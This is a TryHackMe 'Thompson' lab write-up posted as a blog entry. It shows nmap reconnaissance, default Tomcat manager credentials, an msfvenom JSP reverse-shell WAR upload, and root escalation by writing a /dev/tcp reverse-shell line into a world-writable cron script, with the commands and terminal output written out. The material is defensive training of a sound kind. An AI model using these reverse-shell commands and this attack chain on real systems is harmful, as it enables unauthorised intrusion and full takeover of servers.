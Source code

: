 ```yaml
---
layout: post
title: Thompson
subtitle: TryHackME - Thompson
description: Enumerate services, scan  ports,upload shell, and escalate privileges to capture flags.
image: https://tryhackme-images.s3.amazonaws.com/room-icons/f5e35bf1d933a9b45077e5388635a593.png
optimized_image: https://tryhackme-images.s3.amazonaws.com/room-icons/f5e35bf1d933a9b45077e5388635a593.png
tags:
  - TryHackME
  - Privilege Escalation
  - Find Flags
  -Cron Job
author: Mustafa Altayeb
date: 2025-10-14 00:00
paginate: true
---
```


# Thompson
[Thompson](https://tryhackme.com/room/bsidesgtthompson)

![](https://tryhackme-images.s3.amazonaws.com/room-icons/f5e35bf1d933a9b45077e5388635a593.png)

## Objectives
1. Scan with Nmap
2. Enumerate Web to find interesting info 
3. Find input accept files 
4. Gain access with a reverse shell
5. Privilege escalation with Cron Job
6. Capture 2 flag

## Reconnaissance

### Nmap Scan
Port scan:
```bash
nmap -p- -T4 -sCV -oA Nmap_Thompson 10.10.34.161
```

**Key Findings**:
- **Port 22**:   OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 .
- **Port 8009**: ajp13   Apache Jserv (Protocol v1.3)
- **Port 8080**: Apache Tomcat 8.5.5

## Web Enumeration

**Port 8009**: no actions .
**Port 8080**: Running tomcat :

![](/assets/TryHackMeRoomsImage/Thompson/image.png)

- After clicking on `Manager App` it's alerted me to sigin in with login username and password :

![](/assets/TryHackMeRoomsImage/Thompson/image1.png)

- By trying incorrect login credential it's redirect me to page 401 `Unauthorized access`
and find login credential on this response :


[](/assets/TryHackMeRoomsImage/Thompson/image2.png)

Login credential is `user name : tomcat && password is s3cret ` 

- Login with this credential and get web page ` Tomcat Web Application Manager` :

![](/assets/TryHackMeRoomsImage/Thompson/image3.png)

- Enum this page and I find `Input` that accept files with extension `.war` 

![](/assets/TryHackMeRoomsImage/Thompson/image4.png) 

- Create `Reverse Shell` using msfvenom :

- By search about `.war` extension i find it's running Java web server :
![](/assets/TryHackMeRoomsImage/Thompson/image5.png) 

>|**msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.14.109.66 LPORT=9999 -f war > shell.war**



## Gain Initial Access 

- Upload Our Shell to site and Deploy 
- Start Listen with Netcat :
>|**nc -nlvp 9999**
- Access the shell by click on it .

```js
💻  T4T4R1S  🌐 | Local IP ➜ 192.168.115.128 | 🥷 VPN IP ➜ 10.14.109.66
👀  ➜ ~/filetodelete/thm_machines/Thompson  nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.14.109.66] from (UNKNOWN) [10.10.34.161] 32838
ls
bin
boot
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
```
- Now we gain access but limited shell
- Upgrade The Shell Using Python :
>|**python -c 'import pty; pty.spawn("/bin/bash")'**

```js
python -c 'import pty; pty.spawn("/bin/bash")'
tomcat@ubuntu:/$ 
```
### First flag 

```js
tomcat@ubuntu:/home/jack$ cat user.txt
cat user.txt
39400c90bc683a41a.............
```

## Privilege Escalation
- I searched for binary bits but not work 
- After some time i search for cron job:

```js
tomcat@ubuntu:/home/jack$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    cd /home/jack && bash id.sh
#
```
- File Called id.sh we have Privilege to write on it and it's execute with root privilege 

```js
tomcat@ubuntu:/home/jack$ ls -lah
ls -lah
total 48K
drwxr-xr-x 4 jack jack 4.0K Aug 23  2019 .
drwxr-xr-x 3 root root 4.0K Aug 14  2019 ..
-rw------- 1 root root 1.5K Aug 14  2019 .bash_history
-rw-r--r-- 1 jack jack  220 Aug 14  2019 .bash_logout
-rw-r--r-- 1 jack jack 3.7K Aug 14  2019 .bashrc
drwx------ 2 jack jack 4.0K Aug 14  2019 .cache
-rwxrwxrwx 1 jack jack   26 Aug 14  2019 id.sh
drwxrwxr-x 2 jack jack 4.0K Aug 14  2019 .nano
-rw-r--r-- 1 jack jack  655 Aug 14  2019 .profile
-rw-r--r-- 1 jack jack    0 Aug 14  2019 .sudo_as_admin_successful
-rw-r--r-- 1 root root   39 Oct 13 14:50 test.txt
-rw-rw-r-- 1 jack jack   33 Aug 14  2019 user.txt
-rw-r--r-- 1 root root  183 Aug 14  2019 .wget-hsts
```

- let's write our shell to get root access:
```js
tomcat@ubuntu:/home/jack$ echo "bash -i >& /dev/tcp/10.14.109.66/8585 0>&1 " > id.sh
```

- Gain root access:
```js
💻  T4T4R1S  🌐 | Local IP ➜ 192.168.115.128 | 🥷 VPN IP ➜ 10.14.109.66
👀  ➜ ~  nc -nlvp 8585
listening on [any] 8585 ...
connect to [10.14.109.66] from (UNKNOWN) [10.10.34.161] 34958
bash: cannot set terminal process group (1091): Inappropriate ioctl for device
bash: no job control in this shell
root@ubuntu:/home/jack# 
```

## Root Flag :
```js
root@ubuntu:~# cat root.txt
cat root.txt
d89d5391984c045................
```

Finished. Happy Hacking!



<iframe src="https://tryhackme.com/api/v2/badges/public-profile?userPublicId=3186403" style="border:none;"></iframe>

Follow me:
- [LinkedIn](https://www.linkedin.com/in/t4t4r1s/)
- [X](https://x.com/T4T4R1S)

---

